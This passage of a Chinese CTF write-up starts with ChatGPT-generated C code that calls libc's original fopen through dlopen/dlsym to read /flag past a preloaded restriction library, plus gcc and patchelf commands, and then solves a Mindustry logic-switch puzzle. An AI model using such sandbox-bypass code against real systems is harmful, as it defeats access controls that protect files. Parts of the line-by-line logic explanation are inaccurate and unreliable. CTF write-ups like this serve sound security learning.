    void *handle = dlopen("/lib/x86_64-linux-gnu/libc.so.6", RTLD_LAZY);
    if (!handle) {
        fprintf(stderr, "Cannot open libc.so.6: %s\n", dlerror());
        exit(EXIT_FAILURE);
    }

    FILE *(*original_fopen)(const char *, const char *) = dlsym(handle, "fopen");
    if (!original_fopen) {
        fprintf(stderr, "Cannot find fopen: %s\n", dlerror());
        exit(EXIT_FAILURE);
    }

    FILE *fp = original_fopen("/flag", "r");
    if (!fp) {
        fprintf(stderr, "Cannot open /flag\n");
        exit(EXIT_FAILURE);
    }

    char buf[1024];
    if (fgets(buf, sizeof(buf), fp) != NULL) {
        printf("/flag content: %s", buf);
    } else {
        fprintf(stderr, "Cannot read from /flag\n");
    }

    fclose(fp);
    dlclose(handle);
}

int main() {
    printf("If you see this message, the constructor has finished executing.\n");
    return 0;
}
```

编译这个程序：

```bash
gcc -o myprogram myprogram.c -ldl
```

然后使用`patchelf`修改ELF文件：

```bash
patchelf --set-rpath /nonexistent myprogram
```

这样，当您上传并执行这个ELF文件时，它应该能够绕过`stage1.so`的限制，直接打开并读取`/flag`文件的内容。
````

ChatGPT的思路应该是制定了一个不存在动态链接器的搜索路径（本质应该和`LD_PRELOAD`类似），这样程序就会无视现有的`LD_PRELOAD`里的so文件了。

没想到把ChatGPT的代码交上去之后就一次拿到flag了。

## 异星歧途

下载游戏玩一玩之后，可以注意到每8个开关都是由一个[processor](https://mindustry-unofficial.fandom.com/wiki/Guide:_Logic_Basics)控制的。


点进编辑之后可以看到若干逻辑图，或者也可以复制出文本看。



### 第一组

```
sensor s1 switch1 @enabled
sensor s2 switch2 @enabled
sensor s3 switch3 @enabled
sensor s4 switch4 @enabled
sensor s5 switch5 @enabled
sensor s6 switch6 @enabled
sensor s7 switch7 @enabled
sensor s8 switch8 @enabled
jump 18 equal s1 false
jump 18 equal s2 true
jump 18 equal s3 false
jump 18 equal s4 true
jump 18 equal s5 true
jump 18 equal s6 false
jump 18 equal s7 true
jump 18 equal s8 false
control enabled generator1 1 0 0 0
end
control enabled generator1 0 0 0 0
end
```

可以看出S1到S8需要按照`10100101`配置就能启动`generator1`。

### 第二组

```
sensor sw1 switch1 @enabled
sensor sw2 switch2 @enabled
sensor sw3 switch3 @enabled
sensor sw4 switch4 @enabled
sensor sw5 switch5 @enabled
sensor sw6 switch6 @enabled
sensor sw7 switch7 @enabled
sensor sw8 switch8 @enabled
op shl t sw1 7
set number t
op shl t sw2 6
op add number number t
op shl t sw3 5
op add number number t
op shl t sw4 4
op add number number t
op shl t sw5 3
op add number number t
op shl t sw6 2
op add number number t
op shl t sw7 1
op add number number t
set t sw8
op add number number t
set en 0
set i 0
jump 33 greaterThanEq i 16
op pow fl0 i 2
jump 31 notEqual fl0 number
set en 1
jump 33 always x false
op add i i 1
jump 26 always x false
op equal fl1 0 sw1
op equal fl2 0 sw6
op or fl3 fl1 fl2
jump 38 equal fl3 0
set en 0
control enabled generator1 en 0 0 0
control enabled panel1 en 0 0 0
end
```

- `number`是用位移生成的，大概类似于`number = sw1*128 + sw2*64 + sw3*32 + sw4*16 + sw5*8 + sw6*4 + sw7*2 + sw8*1`，然后number需要是一个小于225的平方数。
- `sw1`和`sw6`需要是开状态（相当于已经有128+4=132了），注意到196=14^2；196-132=64，那打开`sw2`就可以了。

`11000100`

### 第三组

```
sensor sw1 switch1 @enabled
sensor sw2 switch2 @enabled
sensor sw3 switch3 @enabled
sensor sw4 switch4 @enabled
sensor sw5 switch5 @enabled
sensor sw6 switch6 @enabled
sensor sw7 switch7 @enabled
sensor sw8 switch8 @enabled
sensor sw9 switch9 @enabled
control enabled conveyor2 sw1 0 0 0
control enabled gate1 sw2 0 0 0
op equal nsw3 sw3 0
control enabled reactor1 nsw3 0 0 0
control enabled reactor2 nsw3 0 0 0
control enabled conduit1 sw4 0 0 0
control enabled conduit2 sw4 0 0 0
control enabled mixer1 sw5 0 0 0
control enabled extractor1 sw6 0 0 0
control enabled meltdown1 sw7 0 0 0
control enabled meltdown2 sw7 0 0 0
op equal result sw8 sw9
jump 28 equal result true
control enabled mixer1 0 0 0 0
control enabled conduit2 1 0 0 0
control enabled reactor1 1 0 0 0
control enabled reactor2 1 0 0 0
control enabled conveyor2 1 0 0 0
wait 5
end
```

目标：打开extractor1，mixer1，reactor1，reactor2，conveyor2，gate1，但不能打开conduit1，conduit2

- 1-8 行：定义了8个传感器，并将它们连接到各自的开关（switch1 - switch9）上，这些开关被命名为sw1到sw9。

- 9-14 行：这些行设置了几个建筑的控制逻辑。`control enabled` 命令用于启用或禁用特定的建筑。建筑的启用/禁用状态取决于相应传感器的状态（0代表禁用，1代表启用）。在这些行中，当传感器的状态为1（即开关被激活）时，相应的建筑会被启用。

- 15-16 行：创建了一个名为nsw3的新变量，并将其值设置为与sw3相等。这意味着nsw3的值将根据sw3的状态变化。

- 17-20 行：当nsw3为1（即sw3被激活）时，启用reactor1、reactor2、conduit1和conduit2。

- 21-23 行：当sw5为1时，启用mixer1；当sw6为1时，启用extractor1；当sw7为1时，启用meltdown1和meltdown2。**——打开sw5，sw6**

- 24-26 行：比较sw8和sw9的状态，并将结果存储在变量result中。如果sw8和sw9都是1或都是0，result将为true。**——sw8已经关了，所以sw9也要关上**

- 27 行：如果result为true（即sw8和sw9的状态相等），则跳转到第28行。

- 28-33 行：如果跳转发生，这些行将被执行。这些行将禁用mixer1，启用conduit2、reactor1、reactor2和conveyor2。

- 34 行：等待5个游戏逻辑帧。

- 35 行：脚本结束。
- sw1控制conveyor2。**——打开sw1**

`10001100`

其他方法：~~服务器允许10秒提交一次序列，8位二进制数一共就256种组合，运行一个小时就能撞出来了~~

### 第四组

正好试出来了`01110111`



